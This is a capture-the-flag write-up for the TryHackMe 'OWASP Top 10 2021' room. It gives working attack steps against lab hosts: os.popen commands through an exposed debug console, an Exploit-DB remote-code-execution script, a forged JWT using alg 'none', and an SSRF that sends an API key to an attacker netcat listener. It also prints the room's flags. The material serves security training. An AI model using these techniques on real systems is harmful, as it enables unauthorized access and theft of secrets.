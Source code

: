#+TITLE: OWASP Top 10 2021
#+AUTHOR: Bryan Rinders
#+DATE: <2023-10-25 Wed>
#+OPTIONS: num:nil
#+PROPERTY: header-args :results output :exports both :eval never-export
#+PROPERTY: header-args:python :session *natas-python-session*

{{{date([%Y-%m-%d])}}}

Write up for the challenges in the tryhackme room [[https://tryhackme.com/room/owasptop102021][OWASP Top 10 2021]].

* Task 11 Insecure design
:PROPERTIES:
:CUSTOM_ID: Task-11-Insecure-design
:END:
Visit the page =ht​tp://MACHINE_IP:PORT= and click on the 'I forgot my
password' link and enter the username =joseph=. You will be brought to
a page where you have to answer a security question. Two questions
might be easily guessed:
- What is you first pet's current address?

  With possible answers:
  + Heaven
  + Hell

- What is your favourite color?

  Possible answers:
  + blue
  + green
  + black
  + red

After trying these answers it turns out =green= is joseph's favourite
color. We are given a new password with which we can login to his
account and read the flag from =flag.txt=.

#+begin_example
THM{Not_3ven_c4tz_c0uld_sav3_U!}
#+end_example

* Task 12 Security Misconfiguration
:PROPERTIES:
:CUSTOM_ID: Task-12-Security-Misconfiguration
:END:
Go to =h​ttp://MACHINE_IP:PORT/console= and enter in the console

#+begin_src python
  import os; print(os.popen("ls -l").read())
#+end_src

The database file name is: =todo.db=.

To get the value of =secret_flag= inside =app.py= run from the console:

#+begin_src python
  print(os.popen("grep secret_flag app.py").read())
#+end_src

The flag is:

#+begin_example
THM{Just_a_tiny_misconfiguration}
#+end_example

* Task 15 Vulnerable And Outdated Components
:PROPERTIES:
:CUSTOM_ID: Task-15-Vulnerable-And-Outdated-Components
:END:
Go to the page =h​ttp://MACHINE_IP:PORT=. After look around the website
for a bit the most interesting page in the admin login page. Trying
=admin:admin= as =username:password= turns out to actually work. After
some more browsing it is unclear what to do so the hint suggests to
search for 'remote command executions in bookstore app', which bring
up [[https://www.exploit-db.com/exploits/47887]]. Downloading this script
to the attackbox and executing it with:

#+begin_src sh
  python 47887.py
#+end_src

results in RCE. Type =y= when prompted on the command line and

#+begin_src sh
  cat /opt/flag.txt
#+end_src

to get the flag

#+begin_example
THM{But_1ts_n0t_my_f4ult!}
#+end_example

* Task 20 Data Integrity Failures
:PROPERTIES:
:CUSTOM_ID: Task-20-Data-Integrity-Failures
:END:
The password for the =guest= account is =guest=.

Find the cookie as described in the task description and ~base64~
decode the first two values.

#+begin_example
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjk4MzAwNTI0fQ.BVUSmKNixf99vZZdga_n9QRJL2WwoGbKYSe1xF6yD0M
#+end_example

#+begin_src sh
  echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
  echo
  echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjk4Mjk4ODUxfQ==" | base64 -d
#+end_src

#+RESULTS:
: {"typ":"JWT","alg":"HS256"}
: {"username":"guest","exp":1698298851}

Note that the second decoded value must be padded with two === signs,
because there must be a multiple of 4 characters in the encoded
string.

Now change the =username= to 'admin' and the =alg= to 'none' and
base64 encode those strings.

#+begin_src sh
  echo '{"username":"admin","exp":1698298851}' | base64
  echo '{"typ":"JWT","alg":"none"}' | base64
#+end_src

#+RESULTS:
: eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjk4Mjk4ODUxfQo=
: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K

replace the cookie values with the new encoded values seperated with a
dot (do not include the original signature)

#+begin_example
eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjk4Mjk4ODUxfQo=.eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.
#+end_example

Refresh the web pages to get the flag:

#+begin_example
THM{Dont_take_cookies_from_strangers}
#+end_example

* Task 21 Security Logging And Monitoring Failures
:PROPERTIES:
:CUSTOM_ID: Task-21-Security-Logging-And-Monitoring-Failures
:END:
When you open the supplied file it is obvious the IP of the attacker
is:

#+begin_example
49.99.13.16
#+end_example

And the type of attack is:

#+begin_example
brute force
#+end_example

* Task 22 Server Side Request Forgery
:PROPERTIES:
:CUSTOM_ID: Task-22-Server-Side-Request-Forgery
:END:
Go to the admin area, it will tell you only =localhost= can login as
admin.

Checking the source of the home page of this website you can see that
the =download resume= button points to:

#+begin_example
secure-file-storage.com
#+end_example

To get the API key, open a terminal on the attackbox and run:

#+begin_src sh
  nc -lvp 8080
#+end_src

then via the browser go to
[[http://MACHINE_IP:PORT/ATTACKBOX_IP:8080&id=1]] the API key wil then be
shown on the netcat terminal:

#+begin_example
THM{Hello_Im_just_an_API_key}
#+end_example

** Extra Mile
:PROPERTIES:
:CUSTOM_ID: Extra-Mile
:END:
Because the admin page is only accessible from =localhost= we can do
the same trick as before but instead of using ~netcat~ you use
=localhost= as the server, with =/admin= as path. However if you try
to go to
[[http://MACHINE_IP:PORT/download?server=localhost:8087/admin&id=1]] you
will notice that it downloads =download.pdf=, which is empty. We need
to somehow make the server ignore the =id= (we can not leave =id= out
of the url). A trick to do this is to use the pound sign, =#=. The
pound sign must be url encode, =%23=, to have the server decode it and
send a request to [[http://localhost:8087/admin#&id=1]] which will then ignore
the =id= value.

So the attack url will be:
[[http://MACHINE_IP:PORT/download?server=localhost:8087/admin%23&id=1]]

And the flag is:

#+begin_example
thm{c4n_i_haz_flagz_plz?}
#+end_example
